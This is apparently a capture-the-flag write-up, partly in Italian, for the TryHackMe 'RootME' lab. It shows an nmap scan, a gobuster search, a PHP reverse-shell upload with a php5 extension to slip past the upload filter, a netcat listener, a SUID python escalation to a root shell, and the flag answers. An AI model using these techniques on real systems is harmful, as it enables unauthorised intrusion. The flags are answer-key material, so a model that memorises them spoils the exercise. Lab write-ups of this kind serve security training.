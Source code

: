 # RootME

_________

# Task 1 - Deploy the machine

  # Deploy the machine
    No answer needed

__________

# Task 2 - Reconnaissance

  # Scan the machine, how many ports are open?

 - sudo nmap -p- -open -sV -sC -sS -A -T4 -Pn 'TARGET-IP'

  ![Istantanea_2023-07-31_21-44-38](https://github.com/Manganaccio/Manganaccio/assets/137283468/8ef7aa85-2e20-4da3-832f-27460e4bff48)

    Answer: 2
  
  # What version of Apache is running?

    Answer: 2.4.29

  # What service is running on port 22?

    Answer: ssh

  # Find directories on the web server using the GoBuster tool.

    No answer needed

  # What is the hidden directory?

  - gobuster dir -u http://TARGET-IP -w /usr/share/wordlists/dirb/big.txt
  
 ![Istantanea_2023-07-31_21-43-04](https://github.com/Manganaccio/Manganaccio/assets/137283468/5cad19e1-68e4-47a2-838a-8474b28c8f20)

 ![Istantanea_2023-07-31_21-48-16](https://github.com/Manganaccio/Manganaccio/assets/137283468/9c5c27fa-66e7-4551-9bfa-d2ebac51d6df)

     Answer: /panel/

__________

  # Task 3 - Getting a shell

  # user.txt

  - Per ottenere la shell sarà necessario fare l'upload del file reverse-shell.php di PentestMonkey, cambiando l'indirizzo IP (quello della macchina attaccante) e il numero della porta;
  - prima di eseguire l'upload cambiare l'estensione del file in "php5" perchè il sito non ammette il caricamento di file in "php";

 ![Istantanea_2023-07-31_21-48-48](https://github.com/Manganaccio/Manganaccio/assets/137283468/5f9520c2-c2ea-4655-abb1-870567231212)

  - in un terminale eseguire il comando: nc -lvnp PORT (la porta da selezionare dovrà essere la medesima inserita nel file reverse-shell);
  - nel browser navigare nella pagina http://TARGET-IP/uploads/ e aprire la reverse-shell caricata in precedenza;

 ![Istantanea_2023-07-31_22-16-49](https://github.com/Manganaccio/Manganaccio/assets/137283468/df9f36bc-9f33-4a49-a1e0-f103e1a86703)

  - per trovare la flag user.txt navigare in /var/www

 ![Istantanea_2023-07-31_22-20-53](https://github.com/Manganaccio/Manganaccio/assets/137283468/c9292a59-6c4d-4b69-9232-cab7317020e5)

     Answer: THM{y0u_g0t_a_sh3ll}

_________

# Task 4 - Privilege escalation

# Search for files with SUID permission, which file is weird?

- Selezionare il comando: find / -user root -perm /4000

      Answer: /usr/bin/python

# Find a form to escalate your privileges.

      No answer needed

# root.txt

- Navigare su [GTFOBins](https://gtfobins.github.io/) e nella pagina di python cercare la voce SUID (come suggerito a inizio task);
- nel terminale digitare il comando: /usr/bin/python -c 'import os; os.execl("/bin/sh", "sh", "-p")'
- navigare nella cartella root per trovare la flag root.txt o eseguire il comando: cat /root/root.txt

![Istantanea_2023-07-31_22-53-35](https://github.com/Manganaccio/Manganaccio/assets/137283468/ee007094-dd1b-4094-bff5-93938af2d7fa)

      Answer: THM{pr1v1l3g3_3sc4l4t10n}
  


